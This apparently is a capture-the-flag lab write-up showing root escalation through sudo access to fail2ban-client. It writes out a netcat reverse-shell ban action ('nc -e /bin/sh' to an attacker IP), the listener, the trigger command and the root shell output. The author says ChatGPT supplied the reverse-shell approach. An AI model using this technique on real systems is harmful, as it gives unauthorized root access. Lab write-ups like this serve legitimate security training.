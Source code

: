 Asking ChatGPT how to find setup we find,

```
sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

```

ChatGPT also suggests we can set commands with sshd when using actions within /etc/fail2ban/action.d/ but can't with custom rules. Chat often lies but lets give it a chance

Giving Chat the list of files within action.d, it tells us
If you want to **trigger a reverse shell** when an IP is banned, the best choices are:

✅ **`iptables-multiport.conf`** (for banning specific ports)  
✅ **`iptables-allports.conf`** (for full IP bans)  
✅ **`route.conf`** (if you want to drop network routes)

I tried a bunch of reverse shells, before finding `nc -e /bin/sh 10.4.114.252 9001
works in the user shell we have. asking ChatGPT to spin us up the needfull,

```
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "nc -e /bin/sh 10.4.114.252 9001"
```

Making sure we have a listener back home
```
nc -lvnp 9001
```

Again ChatGPT with the goods for testing rules.
```
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```
Note if you need to retest, increase the ip address so the action is triggered.

```
nc -lvnp 9001                  

listening on [any] 9001 ...
connect to [10.4.114.252] from (UNKNOWN) [10.10.228.140] 44130

whoami
root
cd /root
ls
filename
passwordMysql.log
root.txt
cat root.txt
THM{------------------------------------------}

```
